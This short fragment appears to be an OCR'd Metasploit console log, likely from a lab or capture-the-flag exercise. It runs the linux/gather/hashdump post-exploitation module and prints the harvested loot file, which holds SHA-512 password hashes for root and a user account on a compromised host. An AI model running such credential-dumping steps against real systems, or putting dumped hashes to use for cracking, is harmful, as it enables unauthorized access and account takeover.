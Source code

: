 ```
msf5 post(linux/gather/hashdump) > cat /root/.msf4/loot/20230317133657_hashdump_192.153.226.3_linux.hashes_438803.txt
[*] exec: cat /root/.msf4/loot/20230317133657_hashdump_192.153.226.3_linux.hashes_438803.txt

root:$6$eY6fkgwD$IDNcKw91uICNzTu5LwVQZCosxN4iMqc/lRONUywb7ln/YA/6XmfYnYlAPQ84AutqxGoTR3fw038KO8xMpBy.U/:0:0:root:/root:/bin/bash
alexis:$6$R3JXrhz9$QGleQFz9xi66c4Tnl2v2TC2qrbxF74RSJa7dek8M6LX5Sx4gyg7Swhp0CVIVpMQ5vbJ/MAB.b5lgZ1HiH2lbD.:1000:1000::/home/alexis:/bin/bash
```